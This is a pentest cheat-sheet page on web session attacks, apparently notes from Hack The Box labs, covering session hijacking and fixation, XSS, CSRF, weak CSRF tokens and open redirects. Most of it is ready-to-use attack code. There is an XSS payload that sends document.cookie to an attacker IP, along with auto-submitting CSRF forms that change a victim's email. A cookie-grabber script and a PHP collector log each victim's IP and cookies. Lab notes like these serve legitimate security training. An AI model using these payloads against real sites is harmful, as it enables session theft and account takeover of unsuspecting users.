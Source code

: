 # Session Security

A user session is a series of requests and responses between a user and a server within a set time.

### <mark style="color:yellow;">Session Hijacking</mark>

Attacker can find a way to obtain session identifiers or cookie and impersonate as the victim, through:

* Passive Traffic Sniffing
* Cross-Site Scripting (XSS)
* Browser history or log-diving
* Read access to a database containing session information

### <mark style="color:yellow;">Session Fixation</mark>

Occurs when attacker fixates a valid session identifier.&#x20;

{% stepper %}
{% step %}
### Obtain valid session identifier

Either make own account or just visit website for identifier.
{% endstep %}

{% step %}
### Fixate a valid session identifier

If session ID stays the same before and after login, that session ID can be used.
{% endstep %}

{% step %}
### Tricking a victim

Send victim a special link with fixed session ID, once victim logins the session can be hijacked.
{% endstep %}
{% endstepper %}

If you input value in token here and the cookie value is the same there is a session fixation.

```
http://mczen.nl/?redirect_uri=/complete.html&token=0efsfmjup7i1vc2f41fia7k7nl
```

### <mark style="color:yellow;">Cross-Site Scripting (XSS)</mark>

In case of XSS vulnerability steal cookie and catch with netcat.&#x20;

```javascript
<script>fetch(`http://10.10.14.169:8443?cookie=${btoa(document.cookie)}`)</script>
```

### <mark style="color:yellow;">Cross-Site Request Forgery (CSRF or XSRF)</mark>

Cross-Site requests forces a user for example to interact with web pages crafted by an attacker. Same-Origin Policy prevents from seeing responses but CSRF only needs requests to be send, watch for anti-CSRF tokens.

To change values from a user we can create a HTML page like this and host it. Due to CSRF when visiting this html page if will change the data of that user.

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

In case of anti-CSRF get the token from the GET request and include it in the html page like:

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

If you have control or input over a value and this works:&#x20;

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

Then leak the CSRF token:

```html
http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f
```

### <mark style="color:yellow;">Exploiting Weak CSRF Tokens</mark>

Check how tokens are generated for example using usernames then MD5 hashing them.  It can be as easy as `md5(username)`, `sha1(username)`, `md5(current date + username` .

You can also try NULL values or empty. Or just a random token but same length. Sometimes its possible to use same CSRF tokens across accounts.&#x20;

We can also use verb tampering from POST to GET.

### <mark style="color:yellow;">Open Redirect</mark>

A security flaw to redirect visitors to attacker controlled website. Like here where redirect\_uri where we can input any URL we want.

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Then change it to `oredirect.htb.net/?redirect_uri=http://10.10.14.169:8443&token=1nmq2kojj8uba8uo62rq42ro6s` when the user uses the form we data on nc.&#x20;

## Getting multiple cookies

In script.js file save the cookie grabber

```js
new Image().src='http://10.10.14.169:8888/index.php?c=' + document.cookie;
```

Write and host a php file to split cookies if multiple were received.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start listening

```
php -S 0.0.0.0:8888
```

Use XSS to run the script.js&#x20;

```javascript
<script src=http://10.10.14.169:8888/script.js></script>
```

In case you find a CSRF vuln you can use the page where XSS  can be ran and send the URL to a target.

